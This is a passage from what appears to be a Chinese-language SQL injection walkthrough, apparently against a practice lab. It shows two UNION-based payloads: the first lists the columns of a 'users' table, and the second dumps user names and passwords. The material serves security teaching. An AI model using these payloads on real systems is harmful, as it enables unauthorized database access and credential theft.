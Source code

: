 我们需要的下一个信息是列的名称。
我们可以注入的可能查询之一是:

```
1' OR 1=1 UNION SELECT 1, column_name 
FROM information_schema.columns 
WHERE table_name='users' #
```

这个输入将给出一个列的列表，其中两列引起了我们的注意:

*   *用户*
*   *密码*

![](img/67726655c3d9f48cf7b62a565fc62a11.png)

现在我们已经获得了获取凭据所需的所有信息，所以让我们通过输入以下查询列出用户及其密码:

```
1' OR 1=1 UNION SELECT user, password FROM users #
```
